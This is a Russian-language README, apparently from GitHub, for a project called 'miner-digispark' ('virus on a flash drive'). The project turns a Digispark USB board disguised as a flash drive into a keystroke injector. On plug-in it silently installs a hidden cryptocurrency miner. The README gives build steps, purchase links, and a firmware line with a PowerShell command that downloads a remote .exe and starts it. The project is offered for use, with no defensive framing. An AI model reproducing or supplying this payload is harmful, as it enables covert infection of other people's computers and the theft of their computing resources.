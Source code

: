 # miner-digispark | Вирус на флешке
_Прошивка для digispark + скрытый майнер_
## Идея
При подключении "флешки" к компютерю будет устанавливаться и запускаться скрытый майнер
## Реализация
- Покупаем  [Digispark](https://alexgyver.ru/lessons/digispark/) 

> [Купить на Ozon](https://ozon.ru/t/Dr8D1GD) | [Купить на AliExpress](https://aliexpress.ru/item/2040316211.html?sku_id=58307777832&spm=a2g2x.productlist.search_results.1.5d115ed1ofwRd7) 

- Устанавливаем [прошивку](firmware.ino) и открываем в [Arduino IDE](https://www.arduino.cc/en/software)
- Создаем майнер (Видеоинструкция)[https://youtu.be/V3U5QreydyM?si=CV2yRZ7MG-l6zGF8] 
- Загружаем на github/обменник/сервер майнер (инструкция)
- Редактируем прошивку в Arduino IDE под себя
> TrinketKeyboard.print("powershell -c \"Invoke-WebRequest -Uri 'ПРЯМАЯ ССЫЛКА НА ФАЙЛ https://...exe' -OutFile 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'; Start-Process 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'\"");

- Загружаем прошивку [(Инструкция)](https://github.com/Sudox00/miner-digispark/blob/main/manual-firmware.md)
